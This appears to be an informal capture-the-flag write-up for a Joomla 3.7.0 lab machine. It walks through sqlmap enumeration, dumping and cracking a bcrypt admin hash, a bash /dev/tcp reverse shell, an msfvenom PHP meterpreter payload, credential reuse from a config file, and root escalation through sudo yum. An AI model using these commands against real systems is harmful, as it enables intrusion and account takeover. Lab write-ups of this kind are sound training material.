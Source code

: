 ```
ip: 10.10.220.84
```

## I did this Box in multiple steps and not in 1 sitting, so the IP might change throughout ###


Server:
Apache/2.4.6 (CentOS) PHP/5.6.40


Find Joomla Version :
Google shows this URL might be accessible:
http://10.10.244.64/administrator/manifests/files/joomla.xml
Shows version : 3.7.0

Article written by :
  Written by Super User



SqlMAP :
  After a lot of trial and error,Steps:

    1. Check all databases with -DBS
      --dbs
    2. See if we can find users with --users --passwords
      See only localhost is allowed
    3. See which Columns
      --tables for `joomla`
    4. Google which tables exist and which hold user data.
    5. Enumerate #__users
    6. Find columns, dump password.

    Database: joomla
    Table: #__users
    [1 entry]
    +-----+------------+--------------------------------------------------------------+
    | id  | name       | password                                                     |
    +-----+------------+--------------------------------------------------------------+
    | 811 | Super User | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm |
    +-----+------------+--------------------------------------------------------------+

`hashid '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'`
Produces:

```
  Analyzing '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
  [+] Blowfish(OpenBSD)
  [+] Woltlab Burning Board 4.x
  [+] bcrypt
```


After some investigation, it seems this is a Bcrypt hash.

`cat superuser.txt
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
john --wordlist=/root/win_downloads/rockyou.txt superuser.txt --format=bcrypt`

```

  spiderman123     (?)

```

i went to /administrator/ and logged in with jonah and spiderman123 as user/pass.

now to make a reverse shell:

bash -i >& /dev/tcp/10.14.12.121/6666 0>&1

Linux version 3.10.0-1062.el7.x86_64 (mockbuild@kbuilder.bsys.centos.org) (gcc version 4.8.5 20150623 (Red Hat 4.8.5-36) (GCC) ) #1 SMP Wed Aug 7 18:08:02 UTC 2019


Messing with dirtyc0w, didnt work.

linpeas found:
public $host = 'localhost';
	public $user = 'root';
	public $password = 'nv5uz9r3ZEDzVjNu';
	public $db = 'joomla';


After i came back to it after a while (Got stuck gaming Kappa) i figured i'd try to make a metepreter shell with msfvenom and msfconsole, this was quite simple in the end:

Generate PHP payload:
  `msfvenom -p php/meterpreter/reverse_tcp lhost=10.14.12.121 lport=4444`

Open Metasploit Metepreter Handler:
  `set payload php/meterpreter/reverse_tcp`
  `set lhost 10.14.12.121`
  `set lport 4444`
  `exploit`

_reference : https://www.hackingarticles.in/joomla-reverse-shell/ _
Then run the Preview.


With the details we got from the Configuration PHP we will try to login to the local user account.
  su - jjameson
  password: nv5uz9r3ZEDzVjNu (From the config file)

Now that we are user, we check which files sudo can run without password:
  `sudo -l`

This Shows
```
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum

```
If we check GTFObins for Yum, we find a small little script we can copy-paste to escape to root:

  https://gtfobins.github.io/gtfobins/yum/
After running this we are ROOT.

cat /root/root.txt

Gives us the answer
